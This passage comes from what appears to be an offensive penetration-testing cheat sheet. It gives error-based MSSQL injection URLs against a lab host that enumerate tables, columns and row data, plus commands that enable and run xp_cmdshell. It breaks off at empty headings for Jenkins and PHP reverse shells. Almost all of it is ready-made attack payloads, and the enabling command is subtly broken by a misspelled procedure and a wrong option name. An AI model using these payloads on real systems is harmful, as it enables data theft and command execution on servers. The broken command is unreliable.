 `http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`


#### Columns within a table


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation
> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`


#### Actual data


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`


#### Shell commands

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`


### Jenkins

##

# Post Exploitation

## Reverse Shell


### PHP Reverse Shell
